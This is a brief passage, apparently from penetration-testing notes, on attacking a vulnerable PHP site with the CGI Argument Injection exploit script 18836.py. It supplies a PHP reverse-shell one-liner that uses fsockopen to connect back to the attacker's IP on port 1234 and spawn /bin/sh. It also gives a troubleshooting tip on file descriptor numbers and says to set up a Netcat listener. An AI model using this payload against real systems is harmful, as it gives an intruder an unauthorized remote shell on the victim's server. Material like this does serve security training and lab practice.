 
---

## Targeting PHP

If we have a vulnerable PHP based website that is running on a vulnerable PHP version, we can use an exploit script like: "CGI Argument Injection (18836.py)", with this reverse shell one liner using PHP: "'$sock=fsockopen("(our IP)",1234);exec("/bin/sh -i <&3 >&3 2>&3");'" 

**Note: If that didn't work, we can try to replace the number 3 in the code with 4,5, or 6.**

We have to have Netcat running on the same port that we specified in the payload.

---




